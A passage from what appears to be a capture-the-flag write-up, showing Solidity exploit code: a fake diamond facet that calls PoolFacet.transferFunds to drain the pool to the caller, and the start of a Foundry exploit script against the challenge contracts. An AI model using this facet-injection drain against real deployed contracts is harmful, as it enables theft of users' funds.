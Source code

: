 ## Final Exploit

`FakeFacet.sol` :

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.20;

import {PoolFacet} from "../src/contracts/facets/PoolFacet.sol";

contract FakeFacet {
    function play(uint256 inputNumber) external payable {}
    function withdrawAll(address poolFacetContract, uint256 amount) external payable {
        PoolFacet(payable(poolFacetContract)).transferFunds(payable(msg.sender), amount);
    }
}
```

`Exploit.sol` :

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.20;

import "forge-std/Script.sol";
import {Diamond} from "../src/contracts/Diamond.sol";
import {DevToken} from "../src/contracts/tokens/DevToken.sol";
import {DevLead} from "../src/contracts/tokens/DevLead.sol";
import {DiamondCutFacet} from "../src/contracts/facets/DiamondCutFacet.sol";
import {DiamondLoupeFacet} from "../src/contracts/facets/DiamondLoupeFacet.sol";
import {IDiamondLoupe} from "../src/contracts/interfaces/IDiamondLoupe.sol";
import {RandomizerFacet} from "../src/contracts/facets/RandomizerFacet.sol";
import {RefreshLeaderFacet} from "../src/contracts/facets/RefreshLeaderFacet.sol";
import {MoneyGameFacet} from "../src/contracts/facets/MoneyGameFacet.sol";
import {PoolFacet} from "../src/contracts/facets/PoolFacet.sol";
import {IDiamondCut} from "../src/contracts/interfaces/IDiamondCut.sol";
import {IFacet} from "../src/contracts/interfaces/IFacet.sol";
import {Setup} from "../src/contracts/Setup.sol";
import {ERC20} from "../src/contracts/external_lib/ERC20.sol";
import {FakeFacet} from "./FakeFacet.sol";

// cast interface src/contracts/facets/PoolFacet.sol
interface IPoolFacet {
    error AddressEmptyCode(address target);
    error AddressInsufficientBalance(address account);
    error FailedInnerCall();
    error ReentrancyGuardReentrantCall();

    event Deposit(address indexed user, uint256 amount);
    event FlashloanExecuted(address borrower, uint256 amount);
    event Withdrawal(address indexed user, uint256 amount);

    receive() external payable;

    function deposit(uint256 amount) external;
    function flashLoan(uint256 amount, address borrower, address target, bytes memory data)
        external
        returns (bool);
    function getSelectors() external pure returns (bytes4[] memory selectors);
    function transferFunds(address payable to, uint256 amount) external;
    function withdraw(uint256 amount) external;
}

// cast interface src/contracts/facets/RefreshLeaderFacet.sol
interface IRefreshLeaderFacet {
```